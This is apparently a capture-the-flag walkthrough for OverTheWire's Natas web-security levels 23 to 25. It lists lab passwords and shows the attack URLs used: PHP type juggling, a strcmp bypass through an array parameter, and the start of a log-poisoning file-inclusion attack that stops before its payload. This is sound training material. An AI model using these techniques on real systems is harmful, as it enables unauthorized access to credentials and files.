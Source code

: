 So use any number greater than 10, followed by "iloveyou", e.g. `http://natas23.natas.labs.overthewire.org/?passwd=69iloveyousomuch`:
```
Username: natas24
Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```

Reference:
- http://php.net/manual/en/language.types.string.php#language.types.string.conversion
- https://linux.die.net/man/3/strtod

### Level 24 - `strcmp` return value
```
http://natas.natas.labs.overthewire.org/ natas gtVrDuiDfck831PqWsLEZy5gyDz1clto
```
The only check relies on the `strcmp` function:
```php
if(!strcmp($_REQUEST["passwd"],"<censored>")){
  // good boy
}
```

Check the return values on [php.net/strcmp](http://php.net/manual/en/function.strcmp.php). The first comment points out that if parameters are not string, it will return `NULL`. `NULL` will allow us to get into that condition because instead of using `strcmp() === 0` (as they do in [the first example on php.net](http://php.net/manual/en/function.strcmp.php#example-6112)), natas24 uses `!`. In fact, any error will return `NULL`.

Let's trigger an error with `passwd[]=hello`: http://natas24.natas.labs.overthewire.org/?passwd[]=hello
```
Username: natas25
Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

Reference:
- http://php.net/manual/en/function.strcmp.php#108563

### Level 25 - PHP `include` vulnerability
```
http://natas.natas.labs.overthewire.org/ natas GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

This level is interesting as it is based on 2 flaws:
- write arbitrary information to /var/www/natas/natas25/logs/natas25_\*.log, such as natas26's password, via the `include` function. *See the [include vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#PHP) on Wikipedia*
- read any natas25-readable file, such as the log file we just wrote into.

#### 1. Write arbitrary data
Vulnerable code at l.57-59:
```php
$log = $log . " " . $_SERVER['HTTP_USER_AGENT']; // we can control this value
$fd = fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a"); // we also know and may control this value
fwrite($fd,$log);
```
Let's write the content of `/natas/natas_webpass/natas26` to our log file:
